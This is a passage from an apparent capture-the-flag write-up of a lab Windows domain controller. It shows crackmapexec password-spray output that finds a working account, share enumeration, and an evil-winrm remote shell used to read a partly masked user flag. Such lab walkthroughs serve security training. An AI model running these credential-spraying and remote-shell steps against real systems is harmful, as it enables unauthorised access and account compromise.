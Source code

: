 ```
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\tushikikatomo:password1 STATUS_LOGON_FAILURE 
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\tushikikatomo:finance1 
SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\tushikikatomo:banking1 STATUS_ACCESS_DENIED 
...[snip]...

```

There’s one success: `MEGACORP\tushikikatomo:finance1`.

With these new creds, I have access to three shares:

```

root@kali# crackmapexec smb 10.10.10.179 -u tushikikatomo -p finance1 --shares
SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\tushikikatomo:finance1 
SMB         10.10.10.179    445    MULTIMASTER      [+] Enumerated shares
SMB         10.10.10.179    445    MULTIMASTER      Share           Permissions     Remark
SMB         10.10.10.179    445    MULTIMASTER      -----           -----------     ------
SMB         10.10.10.179    445    MULTIMASTER      ADMIN$                          Remote Admin
SMB         10.10.10.179    445    MULTIMASTER      C$                              Default share
SMB         10.10.10.179    445    MULTIMASTER      Development                     
SMB         10.10.10.179    445    MULTIMASTER      dfs             READ            
SMB         10.10.10.179    445    MULTIMASTER      E$                              Default share
SMB         10.10.10.179    445    MULTIMASTER      IPC$                            Remote IPC
SMB         10.10.10.179    445    MULTIMASTER      NETLOGON        READ            Logon server share 
SMB         10.10.10.179    445    MULTIMASTER      SYSVOL          READ            Logon server share

```

### WinRM

I also have access to a shell over WinRM:

```

root@kali# evil-winrm -u "MEGACORP\tushikikatomo" -p finance1 -i 10.10.10.179

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\alcibiades\Documents>

```

And `user.txt`:

```
*Evil-WinRM* PS C:\Users\alcibiades\desktop> type user.txt
8264c025************************

```
